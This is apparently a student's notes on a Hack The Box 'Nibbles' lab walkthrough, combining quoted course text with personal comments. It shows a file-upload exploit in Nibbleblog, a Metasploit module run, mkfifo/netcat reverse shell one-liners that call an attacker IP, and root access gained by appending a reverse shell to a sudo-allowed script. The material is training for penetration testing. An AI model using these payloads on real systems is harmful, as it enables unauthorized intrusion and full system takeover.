Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80

```

Now we have to find out where the file uploaded if it was successful. Going back to the directory brute-forcing results, we remember the /content directory. Under this, there is a plugins directory and another subdirectory for my_image. The full path is at http://<host>/nibbleblog/content/private/plugins/my_image/. In this directory, we see two files, db.xml and image.php, with a recent last modified date, meaning that our upload was successful! Let us check and see if we have command execution.

```
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We do! It looks like we have gained remote code execution on the web server, and the Apache server is running in the nibbler user context. Let us modify our PHP file to obtain a reverse shell and start poking around the server.

Let us edit our local PHP file and upload it again. This command should get us a reverse shell. As mentioned earlier in the Module, there are many reverse shell cheat sheets out there. Some great ones are PayloadAllTheThings and HighOn,Coffee.

Let us use the following Bash reverse shell one-liner and add it to our PHP script.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

We will add our tun0 VPN IP address in the <ATTACKING IP> placeholder and a port of our choice for <LISTENING PORT> to catch the reverse shell on our netcat listener. See the edited PHP script below.

``` php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

We upload the file again and start a netcat listener in our terminal:

```
nc -lvnp 9443

listening on [any] 9443 ...
```

cURL the image page again or browse to it in Firefox at http://nibbleblog/content/private/plugins/my_image/image.php to execute the reverse shell.

```
nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Furthermore, we have a reverse shell. Before we move forward with additional enumeration, let us upgrade our shell to a "nicer" shell since the shell that we caught is not a fully interactive TTY and specific commands such as su will not work, we cannot use text editors, tab-completion does not work, etc. This post explains the issue further as well as a variety of ways to upgrade to a fully interactive TTY. For our purposes, we will use a Python one-liner to spawn a pseudo-terminal so commands such as su and sudo work as discussed previously in this Module.

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

``` bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Try the various techniques for upgrading to a full TTY and pick one that works best for you. Our first attempt fails as Python2 seems to be missing from the system!

```
python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
```

We have Python3 though, which works to get us to a friendlier shell by typing python3 -c 'import pty; pty.spawn("/bin/bash")'. Browsing to /home/nibbler, we find the user.txt flag as well as a zip file personal.zip.

```
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
```

-----------------------

Gain a foothold on the target and submit the user.txt flag


This was very confusing for me. First, it wouldn't let me connect to the /nibbleblog/

Then just out of nowhere it did.

Once I finally got in, I did this.

```

msfconsole # start metasploit

use exploit/multi/http/nibbleblog_file_upload

set TARGET 0
show options
set RHOSTS 10.129.170.213

set LHOST 10.10.14.250
set LPORT 4444

exploit # the netcat has to happen before this

shell # Opens shell
python3 -c 'import pty; pty.spawn("/bin/bash")' # creats pretty shell
```

And in another window I ran

```
nc -nvlp 4444
```

That got me a reverse shell that let me find the user.txt file.


# Priv Esc

Now that we have a reverse shell connection, it is time to escalate privileges. We can unzip the personal.zip file and see a file called monitor.sh.

```
nibbler@Nibbles:/home/nibbler$ unzip personal.zip

unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh 
```

The shell script monitor.sh is a monitoring script, and it is owned by our nibbler user and writeable.

```
cat monitor.sh

cat monitor.sh
                 ####################################################################################################

                 #                                        Tecmint_monitor.sh                                        #

                 # Written for Tecmint.com for the post www.tecmint.com/linux-server-health-monitoring-script/      #

                 # If any bug, report us in the link below                                                          #

                 # Free to use/edit/distribute the code below by                                                    #

                 # giving proper credit to Tecmint.com and Author                                                   #

                 #                                                                                                  #

                 ####################################################################################################

#! /bin/bash

# unset any variable which system may be using

# clear the screen

clear

unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

while getopts iv name
do
       case $name in
         i)iopt=1;;
         v)vopt=1;;
         *)echo "Invalid arg";;
       esac
done
```

Says to get linPeas on the box, don't feel like it but here are the steps.

Let us put this aside for now and pull in LinEnum.sh to perform some automated privilege escalation checks. First, download the script to your local attack VM or the Pwnbox and then start a Python HTTP server using the command sudo python3 -m http.server 8080.

```
sudo python3 -m http.server 8080
[sudo] password for ben: ***********

Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.42.190 - - [17/Dec/2020 02:16:51] "GET /LinEnum.sh HTTP/1.1" 200 -
```

Back on the target type wget http://<your ip>:8080/LinEnum.sh to download the script. If successful, we will see a 200 success response on our Python HTTP server. Once the script is pulled over, type chmod +x LinEnum.sh to make the script executable and then type ./LinEnum.sh to run it. We see a ton of interesting output but what immediately catches the eye are sudo privileges.

```
We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```


The nibbler user can run the file /home/nibbler/personal/stuff/monitor.sh with root privileges. Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with sudo we should get a reverse shell back as the root user. Let us edit the monitor.sh file to append a reverse shell one-liner.

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' | tee -a monitor.sh


If we cat the monitor.sh file, we will see the contents appended to the end. It is crucial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption. Execute the script with sudo:

```
sudo /home/nibbler/personal/stuff/monitor.sh 
```

Finally, catch the root shell on our waiting nc listener.

```
nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 47488
# id

uid=0(root) gid=0(root) groups=0(root)
```

From here, we can grab the root.txt flag. Finally, we have now solved our first box on HTB. Try to replicate all of the steps on your own. Try various tools to achieve the same effect. We can use many different tools for the various steps required to solve this box. This walkthrough shows one possible method. Make sure to take detailed notes to practice that vital skillset.

This all gets me the root file


